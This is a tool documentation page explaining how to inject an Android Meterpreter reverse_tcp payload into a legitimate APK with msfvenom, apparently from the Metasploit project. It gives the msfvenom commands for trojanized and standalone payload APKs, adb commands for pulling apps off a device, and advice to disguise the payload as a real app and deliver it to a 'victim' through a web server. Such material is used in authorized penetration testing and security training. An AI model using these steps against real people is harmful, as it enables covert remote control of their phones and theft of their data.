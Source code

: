 You can inject the Android Meterpreter into an existing APK using msfvenom. This
will allow you to impersonate an existing application, which may make it easier 
to convince your victim to install the APK.

## Vulnerable Application

It should be possible to inject Meterpreter into any APK, however some applications
have complex resource structures which may not work with `apktool`.
Additionally some applications have security measures that prevent the application
from working as expected once it has been modified.

## Create Meterpreter APK File

It is preferred to use an existing application; however, if you don't want to use an existing
application you can create a default metasploit android application.

**Finding APKs**

There are many websites that provide standalone APK that can be downloaded, e.g:
APKPure, APKMirror, RAW APK.
You can also build a simple application yourself with Android Studio.

Additionally you can pull APKs from a device connected via ADB:

```
$ adb shell pm list packages | grep app
package:com.existing.app
$ adb shell pm path com.existing.app
package:/data/app/com.existing.app-1/base.apk
$ adb pull /data/app/com.existing.app-1/base.apk com.existing.apk
[100%] /data/app/com.existing.app-1/base.apk
```

## Requirements
 
APK Injection (as opposed to generating a single APK payload) requires a few tools
to be present on your command line already:

* [Java](https://www.oracle.com/java/technologies/downloads/) - Used for building/editing APK
* [Apktool](https://ibotpeaches.github.io/Apktool/) - Used for rebuilding the APK
* [keytool](https://docs.oracle.com/javase/8/docs/technotes/tools/unix/keytool.html) - To create and extract signing certificates
* [apksigner](https://developer.android.com/studio/command-line/apksigner) - To re-sign the APK

Installing these tools (if they are not installed already) will depend on your OS.
Apktool can be installed manually or automatically (e.g `brew install apktool` OR `apt install apktool`).
keytool and jarsigner can be installed by installing the appropriate JDK.

## Inject Payload Into An Existing APK File

Use:

```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

## Create Meterpreter APK File

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```
## Sending apk to other Devices:

There are many method to send APK to victim's device but one of the easiest methods is using a web server.

Next, start an Android device. Upload the APK, execute it and run it, as you would with
a [normal Android meterpreter APK](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md).


